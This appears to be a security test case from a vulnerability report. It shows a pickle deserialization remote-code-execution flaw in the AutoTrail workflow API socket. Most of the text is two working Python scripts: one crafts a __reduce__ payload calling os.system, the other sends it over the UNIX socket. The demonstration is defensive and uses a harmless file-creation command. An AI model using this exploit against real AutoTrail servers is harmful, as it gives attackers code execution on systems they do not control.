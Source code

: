 
**Security test case:**
1. **Setup:**
    - Deploy an AutoTrail workflow instance locally or in a test environment where you can send network requests to its API socket.
    - Identify the socket file path used by the AutoTrail API server (e.g., `/tmp/validation_test.socket` as used in tests, or a user-configurable path).
2. **Craft Malicious Payload:**
    - Create a Python script to generate a malicious pickled payload. This payload should execute a simple command on the server, like creating a file in `/tmp/`.
    ```python
    import os
    import pickle
    import multiprocessing.connection
    from autotrail.core.api.management import APIRequest

    class MaliciousPayload:
        def __reduce__(self):
            return (os.system, ('touch /tmp/pwned',))

    malicious_obj = MaliciousPayload()
    serialized_payload = pickle.dumps(malicious_obj)

    # Wrap in APIRequest to mimic a real API request structure
    api_request = APIRequest(method='status', args=[], kwargs={})
    api_request.args = [serialized_payload] # Inject payload as part of args. Can be kwargs as well

    wrapped_payload = pickle.dumps(api_request)

    with open("malicious_request.pickle", "wb") as f:
        f.write(wrapped_payload)
    ```
3. **Send Malicious Request:**
    - Create another Python script to act as the attacker client. This script will read the serialized malicious payload and send it to the AutoTrail API socket.
    ```python
    import multiprocessing.connection

    socket_file = "/tmp/validation_test.socket" # Replace with your AutoTrail socket path

    with open("malicious_request.pickle", "rb") as f:
        malicious_request_data = f.read()

    try:
        client_conn = multiprocessing.connection.Client(address=socket_file, family='AF_UNIX')
        client_conn.send_bytes(malicious_request_data) # Send bytes directly, bypassing API client wrappers
        client_conn.close()
        print("Malicious request sent.")
    except Exception as e:
        print(f"Error sending request: {e}")
    ```
4. **Execute Test:**
    - Run the attacker client script (`python attacker_client.py`).
5. **Verify Exploitation:**
    - Check if the file `/tmp/pwned` has been created on the server running AutoTrail. If the file exists, it confirms successful remote code execution due to the deserialization vulnerability.
    - Examine the AutoTrail server logs for any errors or unusual activity that might indicate code execution.